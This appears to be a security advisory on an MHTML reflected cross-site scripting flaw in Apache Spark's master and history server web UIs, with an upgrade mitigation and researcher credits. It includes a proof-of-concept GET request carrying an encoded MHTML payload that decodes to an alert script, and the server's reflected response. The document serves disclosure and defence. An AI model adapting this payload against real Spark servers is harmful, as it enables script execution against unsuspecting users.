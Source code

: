 Description:

It is possible for an attacker to take advantage of a user's trust in the server to trick them into 
visiting a link that points to a shared Spark cluster and submits data including MHTML to the Spark 
master, or history server. This data, which could contain a script, would then be reflected back to 
the user and could be evaluated and executed by MS Windows-based clients. It is not an attack on Spark 
itself, but on the user, who may then execute the script inadvertently when viewing elements of the 
Spark web UIs.

Mitigation:

Update to Apache Spark 2.1.2, 2.2.0 or later.

Example:

Request:

```
GET /app/?appId=Content-Type:%20multipart/related;%20boundary=_AppScan%0d%0a--
_AppScan%0d%0aContent-Location:foo%0d%0aContent-Transfer-
Encoding:base64%0d%0a%0d%0aPGh0bWw%2bPHNjcmlwdD5hbGVydCgiWFNTIik8L3NjcmlwdD48L2h0bWw%2b%0d%0a
HTTP/1.1
```

Excerpt from response:

```
<div class="row-fluid">No running application with ID Content-Type: multipart/related;
boundary=_AppScan
--_AppScan
Content-Location:foo
Content-Transfer-Encoding:base64
PGh0bWw+PHNjcmlwdD5hbGVydCgiWFNTIik8L3NjcmlwdD48L2h0bWw+
</div>
```

Result: In the above payload the BASE64 data decodes as:

```
<html><script>alert("XSS")</script></html>
```

Credit:

- Mike Kasper, Nicholas Marion
- IBM z Systems Center for Secure Engineering
